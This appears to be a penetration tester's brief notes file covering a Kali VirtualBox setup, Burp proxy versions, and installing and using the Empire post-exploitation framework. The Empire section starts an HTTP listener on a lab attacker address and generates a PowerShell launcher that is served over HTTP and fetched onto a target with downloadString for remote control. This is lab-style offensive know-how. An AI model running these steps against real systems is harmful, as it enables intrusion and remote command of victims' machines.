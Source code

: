 # Tools and tricks

## Kali on VirtualBox
- `apt-get upgrade`
- `apt-get dist-upgrade`
- `apt-get install -y virtualbox-guest-x11`
- install guest additions 
- reboot

## Firefox ESR + FoxyProxy + Burps
Install version 4.6.5 that can run on Firefox ESR v52.5.0 (32-bit) using it with Burp v1.7.27

## Empire
[Empire github](https://github.com/EmpireProject/Empire/tree/dev)
### Setup
```
git clone https://github.com/EmpireProject/Empire -b dev # Clone the dev branch
cd Empire/setup
./install/sh
./empire.sh
```
### Usage
```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.22:443
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'http'
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher powershell http # this generates the payload
```
Copy the payload output and paste it into a file that you'll serve with `SimpleHTTPServer` and get from the box using `Net.WebClient.downloadString` for example.

